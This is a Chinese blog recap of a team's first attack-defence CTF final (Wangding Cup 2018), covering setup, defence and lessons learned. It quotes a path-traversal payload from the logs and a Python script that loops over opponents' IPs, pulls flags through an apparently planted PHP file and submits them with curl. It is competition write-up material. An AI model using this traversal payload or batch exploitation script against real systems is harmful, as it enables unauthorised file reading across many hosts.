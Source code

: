 ```yaml
---
layout: blog
book: true
title:  "网鼎杯半决赛赛后总结"
background: green
background-image: http://ot1cc1u9t.bkt.clouddn.com/17-7-17/89166189.jpg
date:   2018-09-05 22:53:26
category: 安全
tags:
- 赛后总结 
---
```


# 0x01、

因为第一次参加线下赛，经验不太足，刚拿到机器时有点手忙脚乱。慢慢调整之后进入比赛状态(其实还是有点懵逼)

上去按照正常的套路,ssh连上之后直接备份代码，扔到D盾扫一下是不是有后门[没有发现明显的WebShell].然后准备上waf的时候发现权限不够....(经验问题:其实在ssh连接上之后有提示的[su apache/su pwn])

等了一会waf配置好，并没有及时的审计代码，而是坐在那里淡定的等着日志.....一分钟后，我们的web机器被打..赶紧看日志，发现了payload:

```php
/sites/all/modules/avatar_uploader/lib/demo/view.php?file=../../../../../../../../../../../../../flag
```

队里面的大佬赶紧写了批量和自动提交flag脚本:

```python
import requests
import sys
import os
import time
import json
token= "15028245de14517624df881e158exxxx"
#http://172.16.x.xx:5067/sites/all/modules/avatar_uploader/lib/demo/view.php?file=../../../../../../../../../../../flag
#ip = "10.16.9."
f = open("iisputlist.txt",'r')
for i in f.readlines():
    _ip = i.replace("\r\n","")
    try:
        #print _ip
        r = requests.get("http://"+ _ip +'/themes/bartik/InsecureRequestWarning.php',timeout=3)
        #print r.text
        flag=r.text
        command = "curl -k 'https://172.16.4.1/Common/awd_sub_answer' -d 'token=%s&answer=%s' -X POST" %(token,flag)
        time.sleep(3)
        os.system(command)
        print("\n")
    except:
        pass
'''
token= "15028245de14517624df881e158exxxx"
#answer = raw_input()
command = "curl -k 'https://172.16.x.x/Common/awd_sub_answer' -d 'token=%s&answer=%s' -X POST" %( token,answer)
os.system(command)
#print s
'''

```
pwn题从头到尾一直没有着落，一直处于被打的地位~web也是莫名其妙的被打(明明出现漏洞已经根据日志修复了，但是还是被草哭了)~
后来P0神提醒了一下，要求了赛方重置机器，然后再上waf修复漏洞，居然不被打了。但是pwn还是一直被打...最后想到了一个办法..
flag在系统根目录///....所以..emmmmm 改名字吧 果然三个pwn中有一个改了名字会设备异常 所以还是被打吧！保住一台是一台

# 0x02、

在比赛中还是积累了不少的经验,比如:

- 1.设备要带齐全
- 2.赛前准备的一些脚本,因为比赛的环境不联网所以尽量避免使用一些第三方库，如果真的需要使用的话，还是带上离线安装包。
- 3.心态要好，我方队员一直处于心态良好。不停地骚扰隔壁桌的小哥哥....我甚至厚颜无耻的要了一个flag...
- 4.AWD+CTF的时候..发现Nessus这些扫描系统的根本用不上，一些系统补丁，前期花了大量时间准备，发现并没有用上。
- 5.在接下来的时间里，要多多联系PWN题..得pwn者..得晋级啊...[你看今天天上的云..像不像正在做的PWN题]

	

